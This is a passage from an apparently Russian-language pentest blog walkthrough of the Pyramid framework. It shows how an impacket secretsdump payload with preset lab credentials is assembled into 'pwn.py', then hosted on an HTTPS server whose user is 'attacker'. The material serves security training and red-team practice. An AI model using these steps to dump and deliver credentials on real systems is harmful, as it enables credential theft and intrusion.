 ```bash
    'markupsafe',
    'werkzeug',
    'jinja2',
    'click',
    'itsdangerous',
    'dns',
    'impacket',)

SECRETSDUMP_TARGET = '127.0.0.1'
SECRETSDUMP_DOMAIN = 'megacorp.local'
SECRETSDUMP_USERNAME = 'j.doe'
SECRETSDUMP_PASSWORD = 'Passw0rd2!'
EOT

cat {cfinder,secretsdump}.py >> pwn.py
```

Здесь `cfinder.py` — шаблон, содержащий базовую реализацию класса CFinder, а `secretsdump.py` — немного [измененный secretsdump.py](https://github.com/naksyn/Pyramid/blob/7f1a839e9667d1c5a5c32fddfad3d353d8410682/Server/base-impacket-secretsdump.py#L201-L611) с предопределенным набором переменных (входных параметров) `SECRETSDUMP_*`, заданных в скрипте выше.

Для нужд хостинга файлов автор предлагает использовать собственную [реализацию](https://github.com/naksyn/Pyramid/blob/main/Server/PyramidHTTP.py) простого HTTPS-сервера на Python с Basic-аутентификацией, однако я буду использовать [http-server](https://github.com/http-party/http-server), очень полюбившийся мне при проведении пентестов.

Я сгенерирую фининальную нагрузку, а затем двумя командами создам самоподписанный SSL-сертификат и подниму HTTP-сервер с указанием кред для Basic-аутентификации.

```terminal?prompt=$
~$ ./secretsdump.sh
~$ openssl req -newkey rsa:2048 -new -nodes -x509 -days 3650 -keyout key.pem -out cert.pem
~$ http-server -d false -p 443 -S --username attacker --password 'Passw0rd1!'
```

[![http-server-setup.png](/assets/images/python-pyramid/http-server-setup.png)](/assets/images/python-pyramid/http-server-setup.png)